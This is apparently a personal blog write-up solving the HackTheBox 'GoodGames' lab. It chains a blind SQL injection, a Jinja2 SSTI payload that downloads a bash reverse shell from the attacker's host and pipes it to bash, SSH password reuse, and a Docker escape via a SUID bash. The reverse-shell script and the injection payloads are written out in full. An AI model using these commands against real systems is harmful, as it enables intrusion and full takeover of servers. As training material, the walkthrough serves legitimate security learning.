








# [](#intro)Introduction

Let's solve another [HackTheBox](https://app.hackthebox.com) CTF. In this box, we are going to see SQL injection, Server-Side Template Injection (SSTI) and Docker breakout. 


# [](#level-description)Challenge description

The challenge description is:

> About GoodGames
>
> GoodGames is an Easy linux machine that showcases the importance of sanitising user inputs in web applications to prevent SQL injection attacks, using strong hashing algorithms in database structures to prevent the extraction and cracking of passwords from a compromised database, along with the dangers of password re-use. It also highlights the dangers of using `render_template_string` in a Python web application where user input is reflected, allowing Server Side Template Injection (SSTI) attacks. Privilege escalation involves docker hosts enumeration and shows how having admin privileges in a container and a low privilege user on the host machine can be dangerous, allowing attackers to escalate privileges to compromise the system. 

Very descriptive, huh? The description already tells us what path should we take
in order to solve the challenge.

# [](#approach)Approach mindset

For our approach mindset, we shall separate it as the following steps:

1. Reconnaissance
2. Getting foothold
3. Crafting the attack
4. Getting root

Each concept, including SQL injection, SSTI, and Docker escape, will be explained as needed throughout the four steps.

## [](#step1-recon)Step 1 - Reconnaissance

Alright. As a basic procedure to solve any box or CTF-like machine, we will start enumerating the system's ports. To do so,
we will be using Nmap:

```bash
$ nmap -p- -T4 --min-rate 1000 -A -oN ports.nmap 10.129.96.71
# Nmap 7.94 scan initiated Sun Jan  7 23:08:10 2024 as: nmap -p- -T4 --min-rate 1000 -A -oN ports.nmap 10.129.96.71
Nmap scan report for 10.129.96.71
Host is up (0.30s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=1/7%OT=80%CT=1%CU=40632%PV=Y%DS=2%DC=T%G=Y%TM=659B2F51
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11
OS:NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: Host: goodgames.htb

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   274.29 ms 10.10.16.1
2   130.91 ms 10.129.96.71

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan  7 23:10:09 2024 -- 1 IP address (1 host up) scanned in 119.67 seconds
```

Showing the only open port is a web service at port 80. Let's access it with our preferreble browser.


Looking at it, we notice a few things: first, we have a way to register a new account by clicking on the top-right corner link. 
It is always a good starting point when performing a pentest to register an account and check what functionalities are within the 
powers of a normal user. When we click the little man's icon, we have a button to register a new account. Let's hit that. After
registering a new account, we can access it using the same icon, but now providing our credentials. This is the page we arrive at
after logging in:

### SQL Injection



Since the challenge explicitly tells us about a SQL injection vulnerability, let's logout and log back in, but now
we will analyze the request using BurpSuite:


After some tests, I found that the server was responding with
'Internal Server Error' message (even though with a 200 status code) if I was giving a correct email with wrong credentials:


And also some SQL injection payloads such as `'+and+1=1--;` was not working. These were giving me 'Incorrect credentials supplied' for
some reason, even with the correct password. 



So this got me thinking that neither `--` nor `;` was being interpreted as comment lines.
Maybe they are being escaped. Another possibility is to use `#`. That's what I've tried, and it actually worked:



Amazing! Now that we now that this is our injection point, we can try to enumerate the database in order to find an admin account of 
some sort. Since this injection does not retrieve anything back to us, we will have to base our search blindly. [This](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL%20-%20Time%20Based%20SQLi/README.md)
repo is great for testing time-based SQLi. The specific payload `mula%40mula.com'XOR(if(now()=sysdate(),sleep(5*5),0))OR'#--;` confirmed
a time delay of 25 seconds for the server to respond, thus the vulnerability.

Since retrieving everything manually would take an unecessary amount of work, we'll use SQLmap to our advantage. This was what I've 
ran:

```bash
$ sqlmap -u http://10.129.96.71/login --data "email=mula@mula.com&password=1234" --tables
[...snip...]
id,email,name,password
1,admin@goodgames.htb,admin,2b22337f218b2d82dfc3b6f77e7cb8ec
2,mula@mula.com,mula,81dc9bdb52d04dc20036dbd8313ed055 (1234)
```

And now we have the admin account + its password hash. With a quick search, we can find this hash to be a MD5 hash:


We can [CrackStation](https://crackstation.net/) to crack this hash:



We got the pair of credentials `admin@goodgames.htb:superadministrator`. Let's log in with this account now:



Note that on the top-right corner we now have a gear icon which leads to  http://internal-administration.goodgames.htb/. To access this
page, we will need to add this domain to our `/etc/hosts` directory. Just run

```bash
$ sudo echo "<machine-ip> internal-administration.goodgames.htb" >> /etc/hosts
```

and you should be able to access it right afterwards.

### SSTI

Once we are inside the adminstration panel, we can see many different functionalities. While most of them are illustrative, I've
found this one to be the only one that we can actually play around with:



We can change our name to something else here, and since this is the only endpoint where we can actually test, this must be
the one related to Server Side Template Injection vulnerability (SSTI). But what is SSTI? 

SSTI is a vulnerability that occurs when an application allows user-supplied input to be executed as a part of the template rendering process. This can lead to the execution of arbitrary code, potentially leading to server compromise or data leakage.
In the worst case scenario, we could even get a reverse shell, depending on how the server sanitizes the input.

Since we are dealing with a Flask application, we can limit our search scope to Python SSTI. Upon a quick search,
I found [this](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) aticle about Flask SSTI examples.
In it, we can see that a testable parameter is \{\{2*3\}\} for example. This would render into the number 6. Since changing
your full name in the application results into a template renderization, this is a perfect payload to test it out.



As we can see, the vulnerability is present. 

## [](#step3-foothold)Step 2 - Getting foothold

According to the article, we can see that one way to create a reverse shell is to
make the server download a bash script from our local machine and execute it. To do so, we will need to create a file with
the following command:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<our-ip>/<port> 0>&1"
```

Save it under the name of `rev-shell` and then, start our netcat on the same port we typed in the script. Then, 
we need to make sure the server also downloads the `rev-shell` file. To do this, we will also open a Python server
on port 80. After all of that is setup, we send this payload to the server:



```
{{request.application.__globals__.__builtins__.__import__('os').popen('curl <our-ip>/rev-shell | bash').read()}}
```


And we get our shell!



First, we are root, but the absence of the root flag in the /root directory shows us that we might be inside a Docker container, and that we are root within the container. In real life, we would not have a flag waiting for us in /root, so we would need to resort to other techniques to check if we are inside a Docker container.
The first thing we can do is run ifconfig and check the IP address of the machine:

```bash
root@3a453ab39d3d:/backend# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 1538  bytes 235795 (230.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1341  bytes 2871375 (2.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We can see that our IP does not match the one of the actual box. Another way to check if we are indeed inside a Docker container
is to see if a `.dockerenv` file exists in `/`:


```bash
root@3a453ab39d3d:/backend# ls / -la
ls / -la
total 88
drwxr-xr-x   1 root root 4096 Nov  5  2021 .
drwxr-xr-x   1 root root 4096 Nov  5  2021 ..
-rwxr-xr-x   1 root root    0 Nov  5  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Nov  5  2021 backend
drwxr-xr-x   1 root root 4096 Nov  5  2021 bin
drwxr-xr-x   2 root root 4096 Oct 20  2018 boot
drwxr-xr-x   5 root root  340 Jan 12 23:03 dev
drwxr-xr-x   1 root root 4096 Nov  5  2021 etc
drwxr-xr-x   1 root root 4096 Nov  5  2021 home
[...snip...]
```

A final test we can perform to determine if we are operating within a Docker environment is to examine how the filesystem is mounted:

```bash
root@3a453ab39d3d:/backend# df -h
df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay         8.9G  5.3G  3.2G  63% /
tmpfs            64M     0   64M   0% /dev
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda1       8.9G  5.3G  3.2G  63% /home/augustus
shm              64M     0   64M   0% /dev/shm
tmpfs           2.0G     0  2.0G   0% /proc/acpi
tmpfs           2.0G     0  2.0G   0% /sys/firmware
```
This output reveals an overlay filesystem mounted at `/`, which is typical for Docker containers. It also shows `/dev/sda1` mounted at `/home/augustus`, indicating a bind mount or a volume. This specific mount point suggests 
a directory from the host system (/home/augustus) is being mapped into the container, a common practice in Docker for data persistence or sharing between the host and the container.

One thing that it is important to note is that in a Docker environment, each container is typically assigned an IP address from a subnet managed by Docker. The default behavior is for Docker to create a bridge network and assign IP addresses to each container connected to this network. The first IP in the subnet, often ending in .1, is usually assigned to the gateway of the Docker bridge network, which facilitates communication between the containers and the host machine.

Since our container's IP ends with .2, then it is highly likely that the .1 address is the one that links the container to the
host machine. We can check if SSH port on this gateway is open by using this command:

```bash
timeout 3 bash -c 'cat < /dev/null > /dev/tcp/172.19.0.1/22'
```

If no error messages are shown, then it is probable that the port is open and we can try to SSH into the machine. From our enumeration, we found that `augustus` is a user. Based on the problem description, we see that it mentions password reuse. If
that is the case, then the SSH credentials might be `augustus:superadministrator`:

```bash
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
augustus@172.19.0.1 password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jan 13 16:19:33 2024 from 172.19.0.2
augustus@GoodGames:~$ 
```

And we are out of the container! However, we are not root now. How could we get root having access to a privileged container and
to a less privileged user in the host machine?

## [](#step3-crafting-the-attack)Step 3 - Crafting the attack

The initial step to consider is verifying whether file transfers from the privileged container to the 'augustus' user are feasible. Given that /dev/sda1 is mounted at /home/augustus, a practical approach would be to copy a file into this directory from within the host. Subsequently, we can check if the file appears on the container to confirm the transfer's success.

Inside the host with 'augustus' user, we run:

```bash
augustus@GoodGames:~$ touch test-file
touch test-file
augustus@GoodGames:~$ ls -la
ls -la
total 24
drwxr-xr-x 2 augustus augustus 4096 Jan 13 16:45 .
drwxr-xr-x 3 root     root     4096 Oct 19  2021 ..
lrwxrwxrwx 1 root     root        9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile
-rw-r--r-- 1 augustus augustus    0 Jan 13 16:45 test-file
-rw-r----- 1 root     augustus   33 Jan 12 23:04 user.txt   
```

Then, we go back to the container and see if the file is present:

```bash
root@3a453ab39d3d:/home/augustus# ls -la test-file
ls -la test-file
-rw-r--r-- 1 1000 1000 0 Jan 13 16:45 test-file
```

Success! As we can access files created by 'augustus', we have the potential to gain root access. This can be achieved by copying the /bin/bash binary to /home/augustus inside the host machine, setting its SUID bit and onwership to root in the container, and then executing it in the 'augustus' user. This method is likely to grant us root access on the host machine. 


## [](#solving)Solving!

Let's try it out! First, we run:

```bash
augustus@GoodGames:~$ cp /bin/bash ./badbash
cp /bin/bash ./badbash
```

Then:

```bash
root@3a453ab39d3d:/home/augustus# chown root:root badbash
chown root:root badbash
root@3a453ab39d3d:/home/augustus# chmod 4777 badbash
chmod 4777 badbash
root@3a453ab39d3d:/home/augustus# ls -la badbash
ls -la badbash
-rwsrwxrwx 1 root root 1168776 Jan 13 16:48 badbash
```

Now, back on the host machine:

```bash
augustus@GoodGames:~$ ls -la badbash
ls -la badbash
-rwsrwxrwx 1 root root 1168776 Jan 13 16:48 badbash
augustus@GoodGames:~$ ./badbash -p
./badbash -p
badbash-5.0# whoami
whoami
root
```

And we get root on the host machine! We can now retrieve the flags:

```bash
badbash-5.0# echo "User flag:";cat /home/augustus/user.txt;echo "Root flag:";cat /root/root.txt
<ustus/user.txt;echo "Root flag:";cat /root/root.txt
User flag:
c48d858e747788869b014967d28dd872
Root flag:
bdb613146b47f0a8c563b9fda49567ea
```


# [](#conclusions)Conclusion
This CTF had nice concepts to practice: ranging from SQL injection, to Server Side Template Injection and then 
Docker escape with a privileged container and less privileged host access. 

With the SQL injection, we got the administrator
user on the website. We managed to successfully exploit the Server Side Template Injection (SSTI) vulnerability and gain access to the system's container. Due to implementation faults, we were able to escalate our privileges by escaping the Docker environment and using both the container and a less privileged user on the host to gain root access. This allowed us to have full control over the system.

I hope you liked this write-up and learned something new. As always, don’t forget to do your **research!**

<a href="/">Go back</a>

